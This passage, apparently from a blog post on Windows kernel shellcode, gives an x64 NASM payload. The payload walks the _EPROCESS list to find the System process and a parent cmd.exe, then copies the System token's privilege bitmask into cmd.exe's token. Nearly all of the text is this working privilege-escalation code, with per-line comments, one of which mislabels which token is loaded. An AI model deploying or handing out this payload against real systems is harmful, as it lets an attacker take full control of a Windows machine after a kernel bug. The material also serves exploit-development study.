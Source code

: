 ![](imgs/blog/1WindowsKernelShellcode/20250222192750.png)

The shellcode would be the following:
```nasm
BITS 64
section .text

	nop

	mov r8, qword [gs:0x188]
	mov r8, qword [r8 + 0x220]
	mov r10, r8											; get two _EPROCESS' start addresses (one for cmd and the other for system)
	mov r9, qword [r8 + 0x540]							; get the cmd.exe PID (InheritedFromUniqueProcessId)
	
	GetSystemLoop:
		mov r10, qword [r10 + 0x448]					; go to the flink
		sub r10, 0x448									; go to the _EPROCESS' startpoint
		cmp qword [r10 + 0x440], 0x04					; compare the UniqueProcessId with 4 (system PID)
		jne GetSystemLoop

	mov r10, [r10 + 0x4b8]								; get the system process _TOKEN structure
	and r10, 0xfffffffffffffff0							; get the pointer to the object and not to the fast reference pointer

	GetCmdLoop:
		mov r8, qword [r8+0x448]						; go to the flink
		sub r8, 0x448									; go to the _EPROCESS' startpoint
		cmp qword [r8 + 0x440], r9						; compare the UniqueProcessId cmd.exe's PID
		jne GetCmdLoop

	mov r8, [r8 + 0x4b8]								; get the system process _TOKEN structure
	and r8, 0xfffffffffffffff0							; get the pointer to the object and not to the fast reference pointer

	mov r9, qword [r10 + 0x40]			; move the Present parameter from _SEP_TOKEN_PRIVILEGES system process substructure to the same at cmd.exe
	mov qword [r8 + 0x40], r9
```